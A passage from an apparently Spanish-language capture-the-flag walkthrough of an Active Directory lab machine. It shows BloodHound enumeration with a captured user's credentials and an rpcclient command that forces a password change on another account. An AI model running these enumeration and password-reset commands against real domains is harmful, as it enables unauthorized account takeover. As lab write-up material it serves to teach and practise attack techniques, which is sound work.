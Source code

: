 1. instalamos bloodhound

    ```bash
    pip3 install bloodhound
    ```

1. lanzamos bloodhound-python

    ```bash
    bloodhound-python
    bloodhound-python -c ALL -u support -p '#00^BlackKnight' -ns 10.10.10.192 -dc dc01.blackfield.local -d blackfield.local 
    ```

    esto nos crea un reporte en formato json.

1. instalamos bloodhound y neo4j

    ```bash
    sudo apt install neo4j bloodhound
    ```

1. lanzamos neo4j service

    ```bash
    sudo neo4j console
    ```

1. lanzamos bloodhound

    ```bash
    bloodhound --no-sandbox &> /dev/null &
    disown
    ```

1. connectamos bloodhound al neo4j database

1. Drag & Drop de los ficheros **.json** hacia la ventana del bloodhound y en el Analysis tab

    - Find Shortest Paths to Domain Admins
    - Find Paths from Kerberoastable Users
    - Find AS-REP Roastable Users
    

Aqui no vemos gran cosa, lo unico el usuario support que es asreproasteable pero poco mas. Analizamos los nodos de este usuario.
Le damos un clic derecho al usuario y lo seteamos a Mark User as Owned.
Vamos a Node Info y miramos donde hay un 1.

Vemos que el usuario **support** puede forzar un cambio de contraseña al usuario **AUDIT2020**  


### Forzar un cambio de contraseña con rpcclient {-}

```bash
rpcclient -U "support%#00^BlackKnight" 10.10.10.192

> rpcclient $> setuserinfo2 audit2020 24 s4vitar123$!
```
